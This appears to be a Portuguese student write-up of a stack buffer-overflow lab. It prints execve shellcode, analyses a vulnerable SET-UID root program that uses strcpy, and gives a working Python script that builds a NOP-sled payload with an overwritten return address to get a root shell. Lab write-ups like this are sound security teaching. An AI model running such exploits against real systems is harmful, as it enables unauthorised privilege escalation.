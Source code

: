 ## TAREFA 1
O principal objetivo de um ataque de buffer-overflow é injetar código malicioso no programa atacado, de forma a fazer uso dos privilégios deste para o executar. Uma vez que Shellcode é usado na maioria de ataques de injeção de código, esta primeira tarefa tem como objetivo uma familiarização inicial a como este funciona.

Shellcode, é basicamente um pedaço de código que executa uma shell, o que observamos no código c partilhado no guião:

```c
#include <stdio.h>
int main() {
	char *name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Este simples código, usa o comando "/bin/sh", e os argumentos guardados em "name", na chamada ao comando execve(), para executar uma shell. No entanto, não é possível compilar este código e usar o binário gerado como o nosso shellcode. O Lab apresenta, portanto, o código binário gerado apartir de código assembly, o qual é brevemente explicado no guião, para uma arquitetura de 32 e de 64 bits. Este código encontra-se no ficheiro "call_shellcode.c":

```c
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;
```

Quando o ficheiro é compilado com a flag -m32, o código binário de 32 bits (bloco else), é guardado em "shellcode", caso contrário, é guardado o de 64 bits (primeiro bloco).

Todas as instruções de compilação já estão especificadas no Makefile providenciado. Compilamos o código com o comando "make", que gerou 2 ficheiros de output (um com o código de 64 bits e outro com o de 32) e, executando ambos, verificamos que  é aberta uma shell (neste caso zsh, por causa das proteções) no terminal, no mesmo diretório onde é executado o programa.



## TAREFA 2
A segunda tarefa consistia em perceber como funciona o programa vulnerável deste lab, que se encontra no ficheiro "stack.c". Para isso começamos por analisar o ficheiro.

A vulnerabilidade está no facto da função "strcpy()", não verificar os limites do buffer para o qual estamos a tentar copiar. O programa lê para um array de caracteres "str", com um tamanho máximo de 517 bytes, o conteúdo (também 517 bytes, se tudo correr bem) de um ficheiro "badfile".

```c
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
```

De seguida é chamada a função "bof()", com o array "str" como argumento.

```c
bof(str);
```

Nesta função, "strcpy()" irá copiar os 517 bytes do array "str" para um buffer de tamanho "BUF_SIZE", definido como apenas 100 bytes, e por isso um buffer-overflow irá ocorrer.

```c
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
//...
char buffer[BUF_SIZE];

strcpy(buffer, str);	
```

Uma vez que o programa é "SET-UID root-owned", explorando esta vulnerabilidade existe a possibilidade do utilizador conseguir acesso a uma root shell (se o conteúdo do ficheiro "badfile" visar a isso, é claro).

Em termos de compilação é de destacar alguns aspetos:
 - As opcões "-fno-stack-protector" e "-z execstack" devem ser usadas de forma a desativar a "StackGuard" e as proteções não executáveis da stack.
 
 - De forma a tornar o programa em um programa "Set-UID root-owned", primeiramente mudamos a ownership do programa para root, usando o comando "sudo chown root stack", e depois mudamos a permissão para 4755, deforma a habilitar o bit de "Set-UID". Esta deve ser a ordem utilizada, uma vez que alterar a ownership para root, desativaria o bit de "Set-UID".
Todos estes comandos já vêm incluídos no Makefile providenciado, pelo que estamos prontos a continuar com as restantes tarefas, e podemos compilar o código com "make", no momento apropriado.



## TAREFA 3

Nesta tarefa, o objetivo é explorar uma vulnerabilidade de buffer overflow em um programa de 32 bits chamado "stack-L1-dbg".

Primeiramente, tivemos que utilizar um debbuger(GDB), para analisar o programa alvo e descobrir a distância entre o início do buffer e o local onde o endereço de retorno é armazenado.

Terminal 1 | Terminal 2
:---------:|:---------:
![Alt text](image-1.png)| ![Alt text](image-2.png)

De seguida, tivemos de alterar as variaveis no script python.


-Alteramos a variavel **offset** para 112, pois essa é a distância entre o inicio do buffer e o endereço de retorno.

-Alteramos tambem o valor **ret** para o programa saltar para o endereço que queremos.

-Alteramos o valor **start** para coincidir com o inicio do shellcode no buffer com a posição do ret.
    


**Python Script**

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 256               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcc0c     # Change this number
offset = 112           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

Para finalizar corremos o script python e depois corremos o programa.Com isto conseguimos executar o buffer overflow e executar o shellcode.
![](url)










## TAREFA 4




